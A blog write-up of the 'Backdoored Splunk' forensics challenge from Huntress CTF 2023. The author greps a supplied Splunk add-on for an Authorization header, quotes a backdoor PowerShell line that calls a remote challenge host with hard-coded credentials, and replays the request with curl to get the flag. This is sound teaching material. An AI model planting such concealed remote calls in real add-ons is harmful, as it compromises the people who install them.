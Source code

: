 ```yaml
---
title: "Backdoored Splunk"
date: 2023-10-07T13:08:05-10:01
#draft: true
tags: ['CTF','Writeups', 'Forensics', 'Medium']
---
```

 
# [Home](https://jjolley91.github.io/blog/) >

###  [Huntress CTF](https://jjolley91.github.io/blog/huntress_ctf_2023) >  [Medium Challenges](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/traffic)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/where_am_i) 

### You've probably seen Splunk being used for good, but have you seen it used for evil?

We were given a 'Splunk_TA_windows.zip' file to download.Once the contents were extracted we are given several directories and files to inspect.

Furthermore, by curling the provided url we get the following response: 
```bash
curl http://chal.ctf.games:30644/                                                                                                                  
{"error":"Missing or invalid Authorization header"}
```
It seems as though we are missing an Authorization header in the request. We can then see if there is one present in the extracted files using:
```bash
grep -ri Authorization 
```
We get a hit in the results that looks promising: 
![splunk2](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/backdoored_splunk.png?raw=true)


```bash
bin/powershell/nt6-health.ps1:$OS = @($html = (Invoke-WebRequest http://chal.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content
```
We decided to try to curl the url and included the paramater like so:
```	bash					

curl http://chal.ctf.games:30644/ -H Authorization:"Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg=="
```
We were given a response this time with a base64 encoded message. We were able to decode the response and submit the flag!
![splunk](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/backdoored_splunk.png?raw=true)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/traffic)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/where_am_i) 

